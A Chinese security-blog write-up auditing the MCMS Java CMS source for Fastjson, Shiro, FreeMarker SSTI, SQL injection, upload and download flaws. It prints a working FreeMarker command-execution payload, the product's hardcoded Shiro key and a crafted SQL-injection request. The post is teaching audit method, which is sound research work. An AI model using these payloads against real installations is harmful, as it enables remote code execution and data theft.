# MCMS代码安全审计小记-先知社区

> **来源**: https://xz.aliyun.com/news/17989  
> **文章ID**: 17989

---

#### 产品介绍

MCMS是一款基于SpringBoot 2架构的内容管理系统，它主要用于管理和监控计算机网络中的各种设备和资源，MCMS可以帮助管理员轻松地配置、监视和维护网络设备，提供网络拓扑图、设备状态、流量监控、安全性管理等功能

​

#### 代码审计

首先我们还是来查看项目的pom.xml文件，看看到底引入了那些三方依赖包，但是很奇怪的是你会发现这里除了一个log4j之外就剩下几个net.mingsoft开头依赖包了，而且这里的log4j版本为2.17.0，有人可能会说这个版本有CVE漏洞(CVE-2021-44832)哇，确实如此，但是如果你细细去了解你就会发现这个版本的漏洞利用需要改配置文件，而能够改配置文件了说明你已经拿到服务器权限了或者通过文件上传进行覆盖配置文件构造了利用链路来进行利用，而且这个CVE其实也是很有争议的一个CVE，这里不再展开讨论

```
     <properties>
        <java.version>1.8</java.version>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <log4j.version>2.17.0</log4j.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>net.mingsoft</groupId>
            <artifactId>ms-base</artifactId>
            <version>2.1.13</version>
        </dependency>
        <dependency>
            <groupId>net.mingsoft</groupId>
            <artifactId>ms-basic</artifactId>
            <version>2.1.13.2</version>
        </dependency>
        <dependency>
            <groupId>net.mingsoft</groupId>
            <artifactId>ms-mdiy</artifactId>
            <version>2.1.13.1</version>
        </dependency>


        <!--store入口依赖（源码不开发），如果不需要MStore可以直接去掉依赖-->
        <dependency>
            <groupId>net.mingsoft</groupId>
            <artifactId>store-client</artifactId>
            <version>2.1.13</version>
        </dependency>

        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>${log4j.version}</version>
            <exclusions>
                <exclusion>
                    <artifactId>log4j-api</artifactId>
                    <groupId>org.apache.logging.log4j</groupId>
                </exclusion>
            </exclusions>
        </dependency>
       ......
    </dependencies>
```

项目的pom.xml文件中虽然无法看到使用的三方组件有那些，但是我们在使用IDEA来导入并加载项目是会将三方组件给添加进来，所以我们可以直接看使用了那些三方组件及其版本或者通过文档中使用到的框架技术也可以很快定位到使用的框架组件，下面我们开始继续往下审计



​

##### FastJson 1.2.78分析

在查看三方库的时候我们发现项目中引入了Fastjson 1.2.78版本：

​



​

随后全局搜索关键特征匹配到如下位置：

​

```
JSON.parse
JSON.parseObject
```



​

完整的代码如下所示，从下面可以看到这里虽然使用了JSON.paseObject来进行json解析，但是这里的getMap方法没有任何的调用点，所以无法进行后续利用

​

```
......
    public Map getMap(String configName) {
        if (!StringUtils.isEmpty(configName) && !StringUtils.isEmpty(configName)) {
            ConfigEntity configEntity = new ConfigEntity();
            configEntity.setConfigName(configName);
            configEntity = (ConfigEntity)this.configBiz.getOne(new QueryWrapper(configEntity));
            return configEntity != null && !StringUtils.isEmpty(configEntity.getConfigData()) ? (Map) JSON.parseObject(configEntity.getConfigData(), HashMap.class) : null;
        } else {
            return null;
        }
    }
......
```

​

你以为就这里就结束了？NO NO NO，我们查看pom时可以看到这里引用了下面的四个厂家自己打包的依赖包，其中才是关键的核心代码，我们需要在这个里面去检索定位才对



​

首先我们来搜索ms-base-2.1.13.jar文件——搜索无果

​

```
JSON.parse
```

​



随后我们来搜索ms-basic-2.1.13.jar文件——定位到两处，其中第一处被注释，第二处貌似可以使用，下面进行进一步的分析：

​



​

完整的源代码如下所示，从代码逻辑中可以看到这里首先是获取了文件上传的路径，随后获取了当前项目的root路径并对上传路径进行了过滤处理，这里设计到image、file、video路径，随后将三个路径放到了map中并将其转了一次Json，随后封装了一个MsUeditorActionEnter类，随后通过exec方法调用和其中的callback的参数情况调用invoke来执行不同的操作并返回相应的JSON字符串结果，随后使用Fastjson进行解析操作将json反序列化为一个map对象

​

```
/**
 * Copyright (c) 2012-2022 铭软科技(mingsoft.net)
 * 本软件及相关文档文件（以下简称“软件”）的版权归 铭软科技 所有
 * 遵循 铭软科技《服务协议》中的《保密条款》
 */


package net.mingsoft.basic.action.web;

import cn.hutool.core.io.FileUtil;
import cn.hutool.json.JSONString;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.mingsoft.ueditor.MsUeditorActionEnter;
import net.mingsoft.basic.exception.BusinessException;
import net.mingsoft.basic.util.BasicUtil;
import net.mingsoft.config.MSProperties;
import org.apache.commons.lang3.StringUtils;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.ResponseBody;
import springfox.documentation.annotations.ApiIgnore;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.File;
import java.util.Map;

/**
 * 百度编辑器上传
 *
 * @author 铭软开发团队
 * @date 2019年7月16日
 * 历史修订 2022-1-21 新增normalize(),
 * editor()方法过滤非法上传路径
 */
@ApiIgnore
@Controller("ueAction")
@RequestMapping("/static/plugins/ueditor/{version}/jsp")
public class EditorAction {

    @ResponseBody
    @RequestMapping(value = "editor", method = {RequestMethod.GET, RequestMethod.POST})
    public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {
        String uploadFloderPath = MSProperties.upload.path;
        String rootPath = BasicUtil.getRealPath(uploadFloderPath);
        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFloderPath);
        //过滤非法上传路径
        Map<String, Object> map = (Map<String, Object>) JSONObject.parse(jsonConfig);
        String imagePathFormat = (String) map.get("imagePathFormat");
        imagePathFormat = FileUtil.normalize(imagePathFormat);

        String filePathFormat = (String) map.get("filePathFormat");
        filePathFormat = FileUtil.normalize(filePathFormat);

        String videoPathFormat = (String) map.get("videoPathFormat");
        videoPathFormat = FileUtil.normalize(videoPathFormat);

        map.put("imagePathFormat", imagePathFormat);
        map.put("filePathFormat", filePathFormat);
        map.put("videoPathFormat", videoPathFormat);

        jsonConfig = JSONObject.toJSONString(map);
        MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));
        String json = actionEnter.exec();
        Map jsonMap = JSON.parseObject(json,Map.class);
        jsonMap.put("url","/".concat(uploadFloderPath).concat(jsonMap.get("url")+""));
        return JSONObject.toJSONString(jsonMap);
    }

}
```

随后访问对应的编辑器抓包获取到对应的路径，当然你也可以直接看那个原代码文件定位当前的Version版本，随后进行拼接即可，具体的报文如下，有兴趣可以自行研究一下Fastjson 1.2.78版本的反序列化问题，这里仅做代码审计思路扩展，其余不再赘述~

​

```
http://192.168.204.138:8080/static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig=%7BvideoUrlPrefix:%27%27,fileManagerListPath:%27%27,imageMaxSize:204800000,videoMaxSize:204800000,fileMaxSize:204800000,fileUrlPrefix:%27%27,imageUrlPrefix:%27%27,imagePathFormat:%27/1/cms/content/editor/%7Btime%7D%27,filePathFormat:%27/1/cms/content/editor/%7Btime%7D%27,videoPathFormat:%27/1/cms/content/editor/%7Btime%7D%27%7D&action=config&&noCache=1745340331306
```



另外的一个jar包则匹配到两处

​



​

完整代码如下：

​

```
    /**
     * 如果不确定返回类型，可以使用 getObject
     * @param configName 配置名称  对应自定义配置列表上的 配置名称 字段
     * @param key 对应代码生成器中的字段名称 注意：名称是驼峰式
     * @return 无匹配返回null
     */
    public static Object getObject(String configName,String key) {
        ConfigEntity configEntity = getEntity(configName);
        if (configEntity == null){
            return null;
        }
        //将data转换成map
        HashMap map = JSON.parseObject(configEntity.getConfigData(), HashMap.class);
        if(map!=null){
            return map.get(key);
        }
        return null;
    }

    /**
     * 获取configName完整配置数据，通过一次性获取所有配置，避免重复传递 configName
     * @param configName 配置名称  对应自定义配置列表上的 配置名称 字段
     * @return map
     */
    public static Map getMap(String configName) {
        ConfigEntity configEntity = getEntity(configName);
        if (configEntity == null || StringUtils.isEmpty(configEntity.getConfigData())) {
            return null;
        }
        return  JSON.parseObject(configEntity.getConfigData(), HashMap.class);
    }
```

​

随后向上回溯调用个图Object的位置找到个getString方法，随后检索getString方法定位到两处

​



​

随后定位到相关的接口，这里和上面的调用类似，不再赘述，Fastjson 1.2.78版本的利用链路可以自行搜索

​



​

##### Shiro反序列化命令执行

随后我们在第三方依赖列表中可以看到使用了shiro-core 1.8.0



随后全局搜索关键字"shiro"发现硬编码的shiro-key：

​

```
 shiro-key: d3d3bWluZ3NvZnRuZXRtcw== 
```



​

随后我们需要确认系统的登录过程中是否有使用shiro进行身份认证，也就是我们常说的rememberMe，此时如果你直接在项目工程中搜索你会发现一无所获，随后再仔细一看在pom.xml文件中其实是引入了一处关于net.mingsoft.ms-mcms的包，而这个也是MSCMS的真正应用包源文件，随后我们查看JAR包中的目录并定位到登录认证的相关业务逻辑代码中，可以看到这里调用了login方法，随后我们继续向下跟进

​



​

跟进实现类：

​



随后在登录这里看到了rememberMe的传参：

​



随后直接来到了Shiro中的认证业务逻辑

​



通过上面的分析可以看到项目中使用了Shiro组件且Shiro密钥硬编码，同时在登录认证过程中使用了Shiro进行后端身份认证，所以存在Shiro反序列化命令执行漏洞，下面我们直接使用工具进行漏洞复现利用：

​



随后进行命令执行：

​



##### Freemark模板注入(SSTI)

随后我们在第三方依赖列表中可以看到使用了Freemark模版解析引擎且版本为2.3.31版本，在版本上来看算是比较新的了(比起:2.3.23)，但是如果在模版解析过程中未做任何过滤处理也依旧可以导致模板注入



​

随后我们在jar包中搜索关键字"template.process"，查找相关的位置，在第一个jar包ms-basic-2.1.13.2中搜索无果

​



随后在另外的jar包——ms-base-2.1.13.jar中进行搜索，定位到一处模板解析工具类：



​

随后在另外的jar包——ms-mdiy-2.1.13.jar中进行搜索，定位到两处模板解析工具类：

​



上面定位到的方法名称全部为"rendering"，所以我们紧接着全局所搜索rendering方法，从下面的结果中我们可以看到目前有两个文件——CmsParserUtil.java、MCmsAction.java

​



CmsParserUtil.java是一个文章解析工具类，通过调用generate来根据指定模板、指定路径生成静态页面

​



查看调用点可以看到这里有一处生成主页的调用，其中的tmpFileName为模板文件的路径参数且由外部传入可控



综上我们可以通过调用/generateIndex接口并入参中指定要解析的模板文件名称，随后调用CmsParserUtil.generate进行模板解析，紧接着会在generate中调用rendering方法进行模板渲染，随后在rendering方法中调用模板解析引擎进行模板解析——template.process，那么此时的关键问题就在于要解析的模板文件内容是否可控，随后我们在查看后台的业务功能是发现在后台的"系统设置"功能下有一处模板管理功能而且模板功能中提供了对模板文件的编辑操作，而且index可编辑，随后我们在此模板文件中插入恶意载荷：

​

```
<#assign value="freemarker.template.utility.Execute"?new()>${value("cmd.exe /c calc")}
```

​

​



随后我们还需要查找到上面的"生成主页"功能，而这个其实就是环境搭建好后刚刚进行初始化操作的时候进行的操作，我们直接来到"内容管理-静态化"界面来生成主页，随后即可触发恶意载荷：

​



另外的一个MCmsAction.java则用于动态生成页面，需要再后台配置自定义页面数据，一共四个：index、list、view、search四处

​



​

我们这里以index为例进行分析，可以看到这里动态生成index.do时请求ParserUtil.INDEX和ParserUtil.HTML\_SUFFIX其实是固定的，也就是说这里就是index.htm，那么这里还有什么可以利用的呢？当然有，这里的index.htm后台可编辑，所以我们可以在index.html中插入恶意载荷并在后台生成自定义页面时选择index.htm作为模板文件来进行解析，那么在访问模板文件页面时就可以触发恶意载荷

​



​

下面一起来实践一下下，首先我们这边对index.htm文件进行更改，在其中插入恶意的Freemark载荷

​



随后自定义页面并选择index.htm作为我们的模板文件

​



随后访问页面即可触发恶意载荷：



备注：在往下面分析我们看到使用了SnakeYaml三方库，但是全局搜索"yaml.load"并没有任何的调用点，所以也不再进行深入追溯分析~

​

##### SQL Injection漏洞挖掘

在常规的项目中使用Mybatis持久层中间件时会将XXXMapper.xml文件存储到resources/mapper目录下，但是查看MSCMS确发现并没有，随后查看src目录下的dao层发现其中存在相关的XXXMapper.xml文件以及对应的接口

​



随后查看xml文件并全局检索关键字"${"，总共定位到3处，下面逐一进行分析

​



首先我们来查看第一处，其SQL语句语句如下，可以看到这里的order是进行了拼接的，当满足条件"order!=null and order!=''"就会使用到order作为SQL语句的一部分进行拼接

​

```
	<!-- 根据站点编号、开始、结束时间和栏目编号查询文章编号集合 -->
	<select id="queryIdsByCategoryIdForParser" resultMap="resultBean" >
			select
			ct.id article_id,c.*
			FROM cms_content ct
			LEFT JOIN cms_category c ON ct.category_id = c.id
			where ct.del=0

			<!-- 查询子栏目数据 -->
			<if test="categoryId!=null and  categoryId!='' and categoryType==1">
				and (ct.category_id=#{categoryId} or ct.category_id in
				(select id FROM cms_category where find_in_set(#{categoryId},CATEGORY_PARENT_IDS)>0))
			</if>
			<if test="categoryId!=null and  categoryId!='' and categoryType==2">
				and ct.category_id=#{categoryId}
			</if>
			<if test="beginTime!=null and beginTime!=''">
				<if test="_databaseId == 'mysql'">
					AND ct.UPDATE_DATE &gt;=  #{beginTime}
				</if>
				<if test="_databaseId == 'oracle'">
					and ct.UPDATE_DATE &gt;= to_date(#{beginTime}, 'yyyy-mm-dd hh24:mi:ss')
				</if>
			</if>
			<if test="endTime!=null and endTime!=''">
				<if test="_databaseId == 'mysql'">
					and ct.UPDATE_DATE &gt;= #{endTime}
				</if>
				<if test="_databaseId == 'oracle'">
					and ct.UPDATE_DATE &gt;= to_date(#{endTime}, 'yyyy-mm-dd hh24:mi:ss')
				</if>
			</if>
			<if test="flag!=null and flag!=''">
			and ct.content_type in ( #{flag})
			</if>
			<if  test="noflag!=null and noflag!=''">
			and (ct.content_type not in ( #{noflag}  ) or ct.content_type is null)
			</if>
			<if test="orderBy!=null  and orderBy!='' ">
				<if test="orderBy=='date'">ORDER BY content_datetime</if>
				<if test="orderBy=='hit'">ORDER BY content_hit</if>
				<if test="orderBy=='sort'">ORDER BY content_sort</if>
				<if  test="orderBy!='date' and orderBy!='hit' and orderBy!='sort'">
					ORDER BY ct.id
				</if>
				<choose>
					<when test="order!=null and order!=''">
						${order}
					</when>
					<otherwise>
						desc
					</otherwise>
				</choose>
			</if>

	</select>
```

随后根据ID指向"queryIdsByCategoryIdForParser"和对应的映射器"net.mingsoft.cms.dao.IContentDao"定位到对应的接口：

C:\Users\RedTeam\Desktop\MCMS\src\main\java\
et\mingsoft\cms\dao\IContentDao.java

​



随后查看调用位置——C:\Users\RedTeam\Desktop\MCMS\src\main\java\
et\mingsoft\cms\biz\impl\ContentBizImpl.java

​



​

随后查看调用了queryIdsByCategoryIdForParser的位置发现一共有4处

​



经过确认后发现0处有效，确实你没有听错，上面引用的前三处根本就没有可控的order的入参，例如：

​



最后一处虽然有order的入参，但是很不幸的是有做校验检查，防止SQL注入

​



其余的第二处则是tablename不可控，第三处则是参数为key，也就是键值并不是value，没啥用处，随后我们转至下面的额三方依赖中的MSCMS中来检索"${"关键词，随后发现一处可疑的点，继续跟进这里的xml文件

​



​

随后根据下面的id序列和对应的映射器"net.mingsoft.cms.dao.IBaseDao"定位到对应的接口并追踪接口实现类发现在BaseBizImpl.java中有实现

​



​

随后跟进次实现类文件发现其中有多个重载的queryBySQL，我们这里因为可疑的注入点为orderBy，所以我们只匹配orderBy参数可控的接口，向上跟踪具体的调用位置

​



​

可以看到这里的orderBy在调用后端的方法时进行了一次检查，如果不为空且包含空格则认为有注入攻击，提示参数非法，关于这一点很好绕过，可以直接使用内联注释等方式，随后我们继续往上可以看到参数来自入参，当前方法为queryDiyFormData，随后全局搜索调用了此方法的位置

​



随后定位到/queryData接口，参数可控，请求方法为POST或者GET

​



根据接口描述构造请求报文如下：

​

```
POST /ms/mdiy/formData/queryData.do HTTP/1.1
Host: 192.168.204.137:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=95a42f9e-ffb4-43dc-addb-dcb6c6a1391e; XXL_JOB_LOGIN_IDENTITY=7b226964223a312c22757365726e616d65223a2261646d696e222c2270617373776f7264223a226531306164633339343962613539616262653536653035376632306638383365222c22726f6c65223a312c227065726d697373696f6e223a6e756c6c7d; pageno_cookie=1; SHIRO_SESSION_ID=5977d3e7-8480-4b46-86e6-768d22f09452; rememberMe=B4ttjNRDyNDkedCTQZFD27O5cFjSxwcwLofccLoxDKG3+2YwW6JVmtvv60LkVevx5oxGOYgdKAUa43T3zOtDCm/GKhUPblOlu4wV7127czbRR6R0JSVhaCaJAG0B/IGC8tcM73bKiLEyQb+H2NmNINdjHD77cstVeB7NyTdbvqXY96GH8+gPu61oq7v3Mm0r+etCnsgPtmPWe1RmjU1jWmZ/pP7e9yfiaaL42sHpe+I6wwI+TYQPxEO/VS9LebClugW/ihkh1LR979tWgFpgrOKcHZ8aGyaJnc51ZMus/QMmxiNEdyw/gfvDsBXSvzGX5RJxJ/nC2aVj1yG+zxkoghCnYru/54KhEbkzH7Di6S3yUvBQKg6n4paXuhlDVolBfy4/IdZkoeYSdO2RnC7VxOvdRoTcaZBMJa3WO6nR078zeIZLMNhLY5WqHshhyY66X91Gr5bLR1O0AKwEnP2+E2BT+WQxtOcGd+qROTPk8DIrLNSvF+5/n52z6WLyQ/5u5T1ueFeSj054u2Sfrsq9Qaddhh8t2Fat2D1z+KT+WmvJ27QyUfY0IPK89Rwcejq5ieCt6vig+Qn9M+ut6KD+zA4skWPLjt3+aKMot+jv6Q6hKcUHMYGFzUbznXaqqT7fylSRn+tIBvNpedqjKY7irpcXa9iGhhmMzYEOUy76tTJatqdlEr6et1GZnuDLa/tECe/dmKNuWMvfiBAYVr7DhwlLXMFCL1A1TGBzUsigxS3na/e9zZDHlXlBar6a3lQmSBzJ4Yms2iv7hZUzjMTgsNtJ8gEvDDXV2SvkOKkCVHDL4Zc5aeCqrnbbnUL6jEk1Hdo4Eu76IkMwTMyz6FXWyo+D6RxgYDnHm2XtcjWgPYXKI9/pAR9Lq/+Bc7ql4P/AiOzdh9VzL4aST6UeXfcozm8NbEd5PTIoAdk/vBkmIA/LtCIG/mXUjNa0HNmjod5daQwjbsQJxD0xDsWDTLm+ySXF4CNimRRlnRI9UvXqupakKujt/+YGjgdxp1S4GP1yhvJsgCMg06GMIPqlLTYKvqmM95Dye902Ibp5DQrder5MeR7jnH90MMpnsXO2CQKHSmwXkEhA/q4HJjv6YL05qyqPeElWqIO05J5jEJw6pzA+Lt333/vyNhAG/YIpTkX1EY5VGcUbskINAvGykJUqpt7yTGKkjKzX1/ssB92XynLifYlqF01d3jh1X+OjsWzckLJtvUAFvqQNaQiU5ltWAzj5OpCbTSHZGmAkzR7F6SFCbFhd8wNu5VtJzAIWbIee0WYktwfPVxq6zJ8vw/VqCLOJpGgHbnhyGTsEMWQAq9oKStGfu/YnTGoJZoc9YCGfiZeGOp96AuOSm3o=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

modelId=1&orderBy=1
```



随后使用SQLMap附加内联注释替换空格的参数注入如下：





从之前的检索结果我们可以发现这里其实还有一个begin和end，但是在对应的向上跟踪过程中发现关联的queryBySQL并没有相关的调用点，无法进行利用，其余的检索到的"${"位置点则主要是key键，无法进行深入利用

​



随后继续搜索"${"来找到其他可疑的注入点，经确认发现存在一处上层接口queryExcludeApp



​

但是后续跟踪对应的接口发现有做SQL注入过滤，至此全部的SQL注入检索点完成~



##### 任意文件上传挖掘思路

在源码文件中通过全局搜索关键词——upload找到统一的文件上传方法代码位置

E:\Environment\JAVA\Maven
epository\
et\mingsoft\ms-basic\2.1.13.2\ms-basic-2.1.13.2-sources.jar!\
et\mingsoft\basic\action\BaseFileAction.java



​

完整的代码如下所示，可以看到这里首先获取了文件上传保存的路径、上传过滤的文件类型、文件上传的路径，随后使用一个errorType的字符串数组来存放需要过滤的文件后缀类型，随后获取文件名并对文件名进行校验检查，同时对文件的格式进行校验检查，随后获取绝对路径、修改上传的物理路径并检查文件后缀，最后上传文件

```
    /**
     * 统一上传文件方法
     * @param config
     * @return
     * @throws IOException
     */
    public ResultData upload(Config config) throws IOException {
        String uploadMapping = MSProperties.upload.mapping;
        String uploadFileDenied = MSProperties.upload.denied;
        String uploadFloderPath = MSProperties.upload.path;
        // 过滤掉的文件类型
        String[] errorType = uploadFileDenied.split(",");
        //文件上传类型限制
        String fileName = config.getFile().getOriginalFilename();
        if (StringUtils.isBlank(fileName)) {
            return ResultData.build().error("文件名不能为空!");
        }
        if(fileName.lastIndexOf(".") < 0){
            LOG.info("文件格式错误:{}",fileName);
            return ResultData.build().error(getResString("err.error", getResString("file.name")));
        }
        String fileType=fileName.substring(fileName.lastIndexOf("."));
        boolean isReal = new File(uploadFloderPath).isAbsolute();
        //绝对路径
        String realPath = isReal? uploadFloderPath:config.uploadFloderPath?BasicUtil.getRealPath(""):BasicUtil.getRealPath(uploadFloderPath) ;
        //修改上传物理路径
        if(StringUtils.isNotBlank(config.getRootPath())){
            realPath=config.getRootPath();
        }
        //修改文件名
        if(!config.isRename()){
            //Windows 系统下文件名最后会去掉. 这种文件默认拒绝  xxx.jsp. => xxx.jsp
            if(System.getProperty("os.name").startsWith("Windows")){
                if(fileName.endsWith(".")) {
                    LOG.info("文件类型被拒绝:{}",fileName);
                    return ResultData.build().error(getResString("err.error", getResString("file.type")));
                }
                fileName = FileNameUtil.cleanInvalid(fileName);
            }
            fileType=fileName.substring(fileName.lastIndexOf("."));
        }else {
            //取随机名
            fileName=System.currentTimeMillis()+fileType;
        }
        for (String type : errorType) {
            if((fileType).equalsIgnoreCase(type)){
                LOG.info("文件类型被拒绝:{}",fileType);
                return ResultData.build().error(getResString("err.error", getResString("file.type")));
            }
        }
        // 上传的文件路径,判断是否填的绝对路径
        String uploadFolder = realPath +  File.separator;
        //修改upload下的上传路径
        if(StringUtils.isNotBlank(config.getUploadPath())){
            uploadFolder+=config.getUploadPath()+ File.separator;
        }
        //保存文件
        File saveFolder = new File(uploadFolder);
        File saveFile=new File(uploadFolder,fileName);
        if(!saveFolder.exists()){
            FileUtil.mkdir(saveFolder);
        }
        config.getFile().transferTo(saveFile);
        //绝对映射路径处理
        //如果UploadFloderPath = true则返回路径中不拼upload的路径
        String path = (config.isUploadFloderPath() ? "" : uploadMapping.replace("**",""))
                //转为相对路径
                + uploadFolder.replace(realPath,"")
                //添加文件名
                +  Const.SEPARATOR + fileName;
        //替换多余
        return ResultData.build().success(new File(Const.SEPARATOR + path).getPath().replace("\","/").replace("//","/"));
    }
```

​

相关处理过滤内容如下：



随后全局检索调用了upload方法的位置，发现存在两处

​



向上追溯来到第一处

​



这里的checkUploadPath对路径进行了过滤处理——过滤了其中的../和..\

​



​

随后初始化了一个config对象并进行传参

​



综上所述我们可以调用upload接口进行文件上传，考虑到文件上传时仅过滤了jsp和exe文件类型，所以我们可以上传jspx文件来实现GetShell，随后我们在登录后台找文件上传的位置并执行文件上传操作，结果发现是我们异想天开了，这里依旧有做拦截处理，就很是奇怪，源代码中不是没有过滤吗？

​



随后我们查看配置文件发现配置文件中进行了限制

​



文件上传失败，但是可以看到这里使用的是黑名单过滤处理，我们虽然GetShell不了，但是我们可以上传html文件进行解析来构造XSS，不过这个就有点鸡肋了，后台的selfxss....下面来看第二点uploadTemplate，这里主要用于上传模版文件，其中的uploadTemplatePath为模版文件的路径，uploadFileDenied为拒绝的文件上传类型，随后检查上传的文件类型并随机起名

​

```
    public ResultData uploadTemplate(Config config) throws IOException {
        String uploadTemplatePath = MSProperties.upload.template;
        String uploadFileDenied = MSProperties.upload.denied;
        String[] errorType = uploadFileDenied.split(",");
        //文件上传类型限制
        //获取文件名字
        String fileName=config.getFile().getOriginalFilename();
        if(fileName.lastIndexOf(".")<0){
            LOG.info("文件格式错误:{}",fileName);
            return ResultData.build().error(getResString("err.error", getResString("file.name")));
        }
        //获取文件类型
        String fileType=fileName.substring(fileName.lastIndexOf("."));
        //判断上传路径是否为绝对路径
        boolean isReal = new File(uploadTemplatePath).isAbsolute();
        String realPath=null;
        if(!isReal){
            //如果不是就获取当前项目路径
            realPath=BasicUtil.getRealPath("");
        }
        else {
            //如果是就直接取改绝对路径
            realPath=uploadTemplatePath;
        }
        //修改文件名
        if(!config.isRename()){
            fileName=config.getFile().getOriginalFilename();
            //Windows 系统下文件名最后会去掉. 这种文件默认拒绝  xxx.jsp. => xxx.jsp
            if(fileName.endsWith(".")&&System.getProperty("os.name").startsWith("Windows")){
                LOG.info("文件类型被拒绝:{}",fileName);
                return ResultData.build().error(getResString("err.error", getResString("file.type")));
            }
            fileType=fileName.substring(fileName.lastIndexOf("."));
        }else {
            //取随机名
            fileName=System.currentTimeMillis()+fileType;
        }
        for (String type : errorType) {
            //校验禁止上传的文件后缀名（忽略大小写）
            if((fileType).equalsIgnoreCase(type)){
                LOG.info("文件类型被拒绝:{}",fileType);
                return ResultData.build().error(getResString("err.error", getResString("file.type")));
            }
        }
        // 上传的文件路径,判断是否填的绝对路径
        String uploadFolder = realPath +  File.separator;
        //修改upload下的上传路径
        if(StringUtils.isNotBlank(config.getUploadPath())){
            uploadFolder+=config.getUploadPath()+ File.separator;
        }
        //保存文件
        File saveFolder = new File(uploadFolder);
        File saveFile=new File(uploadFolder,fileName);
        if(!saveFolder.exists()){
            FileUtil.mkdir(saveFolder);
        }
        config.getFile().transferTo(saveFile);
        //绝对映射路径处理
        String path= uploadFolder.replace(realPath,"")
                //添加文件名
                +  Const.SEPARATOR + fileName;
        //替换多余
        return ResultData.build().success(new File(Const.SEPARATOR + path).getPath().replace("\","/").replace("//","/"));
    }
```

​

随后查看调用的功能位置点，这里和上面的upload一样，都是做了过滤检查处理

​



不出意外的是我们依旧上传失败，无法来GetShell

​



不过这里我们可以上传插入恶意Freemark载荷的htm文件并通过静态化渲染来执行命令

​



​

不过这个就略微有些强牵了，毕竟说白了还是使用的还是Freemark模版注入

​



​

##### 任意文件下载漏洞挖掘

在源代码中全局搜索download关键词找到一处调用点，从中可以看到这里的传参为filepath，方法中又对filePath是否为空，是否包含"../"或者"..\"进行校验检查，随后从filePath中截取内容获取要读取的文件名称并读取file内容，这里的filename为filepath的最后一部分的文件名称，而且需要注意的是这里对最后的回显内容文件路径进行了限制，也就是WEB-INF目录下的filepath文件内容

​



​

所以这里是没法进行任意文件读取的，只能读取一下位于WEB-INF目录下的文件内容



​

**文末小结**

**​**

本篇文章主要结合MSCMS对JAVA安全代码审计方法思路进行了分析介绍，其中关键点在于如何定位利用点，如何向上回溯确定可利用，同时对于文件上传类的问题可以进行思维的扩展，例如：模版文件的利用，不必局限于任意文件上传来GetShell，其他方式也是可以作为尝试的，另外的解压文件(zipslip)等其他漏洞的利用和挖掘在后面遇到相关审计到的CMS或者产品之后再做介绍分析
